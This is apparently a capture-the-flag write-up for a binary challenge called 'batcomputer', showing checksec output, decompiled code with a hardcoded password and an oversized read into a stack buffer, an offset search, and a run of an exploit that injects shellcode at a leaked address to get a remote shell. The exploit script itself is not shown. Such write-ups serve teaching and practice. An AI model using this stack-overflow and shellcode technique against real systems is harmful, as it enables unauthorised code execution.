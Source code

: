 # batcomputer

Start with some basic file enumeration

```s
$ file batcomputer 
batcomputer: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=497abb33ba7b0370d501f173facc947759aa4e22, for GNU/Linux 3.2.0, stripped
$ pwn checksec batcomputer 
[*] 'batcomputer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

The only security here is PIE. The application is also stripped so we'll need to identify `main` manually.

After a bit of rummaging, I identified `main`:

```c

undefined8 main(void)

{
  int iVar1;
  int local_68;
  char acStack_64 [16];
  undefined target [76];
  
  none_1();
  while( true ) {
    while( true ) {
      memset(acStack_64,0,16);
      printf(
            "Welcome to your BatComputer, Batman. What would you like to do?\n1. Track Joker\n2. Cha se Joker\n> "
            );
      __isoc99_scanf(&DAT_00102069,&local_68);
      if (local_68 != 1) break;
      printf("It was very hard, but Alfred managed to locate him: %p\n",target);
    }
    if (local_68 != 2) break;
    printf("Ok. Let\'s do this. Enter the password: ");
    __isoc99_scanf(&DAT_001020d0,acStack_64);
    iVar1 = strcmp(acStack_64,"b4tp@$$w0rd!");
    if (iVar1 != 0) {
      puts("The password is wrong.\nI can\'t give you access to the BatMobile!");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    printf("Access Granted. \nEnter the navigation commands: ");
    read(0,target,137);
    puts("Roger that!");
  }
  puts("Too bad, now who\'s gonna save Gotham? Alfred?");
  return 0;
}


```

There is an overflow in `target`. The buffer is only allocated 76 bytes but allows 137 bytes to be read in. First identify the offset for the payload:

```s
gef➤  patter offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 84 (little-endian search) likely
[+] Found at offset 85 (big-endian search) 
gef➤
```

Cool. With the target buffer so far away from the return address, we won't have enough room to inject shellcode. Fortunately, the program leaks the start address of our target buffer off. We'll simply be able to jump back there and execute the shellcode. I'm a script kiddie and stole shellcode from [shell-storm](https://shell-storm.org/shellcode/files/shellcode-806.html)

```s
$ ./exploit.py REMOTE
[+] Opening connection to 188.166.175.0 on port 32567: Done
[*] start of buffer: 0x7ffe91536974
[*] Switching to interactive mode
Too bad, now whos gonna save Gotham? Alfred?
$ ls
batcomputer
core
flag.txt
```